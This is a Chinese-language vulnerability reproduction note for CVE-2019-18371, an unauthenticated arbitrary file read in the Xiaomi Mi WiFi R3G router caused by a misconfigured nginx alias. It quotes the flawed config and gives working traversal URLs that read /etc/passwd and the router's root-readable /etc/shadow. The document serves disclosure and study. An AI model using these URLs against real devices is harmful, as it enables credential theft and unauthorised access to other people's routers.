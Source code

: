 ```yaml
---
title: "（CVE-2019-18371） Xiaomi Mi WiFi R3G 任意文件读取漏洞"
id: zhfly3407
---
```


# （CVE-2019-18371） Xiaomi Mi WiFi R3G 任意文件读取漏洞

## 一、漏洞简介

Xiaomi Mi WiFi R3G是中国小米科技（Xiaomi）公司的一款3G路由器。 Xiaomi Mi WiFi R3G 2.28.23-stable之前版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

## 二、漏洞影响

Xiaomi Mi WiFi R3G 2.28.23-stable之前版本

## 三、复现过程

#### 小米路由器的nginx配置文件错误，导致目录穿越漏洞，实现任意文件读取（无需登录）

nginx配置不当可导致目录穿越漏洞，

```
location /xxx {
  alias /abc/;
} 
```

可通过访问`http://domain.cn/xxx../etc/passwd`实现目录穿越访问上级目录及其子目录文件。

在小米路由器的文件`/etc/sysapihttpd/sysapihttpd.conf`中，存在

```
location /api-third-party/download/extdisks {
	alias /extdisks/;
} 
```

故可以任意文件读取根目录下的所有文件，而且是root权限，如访问`http://192.168.31.1/api-third-party/download/extdisks../etc/shadow`

![image](../img/388d9de7afc9a29b0093c5819a26b9d2.png)
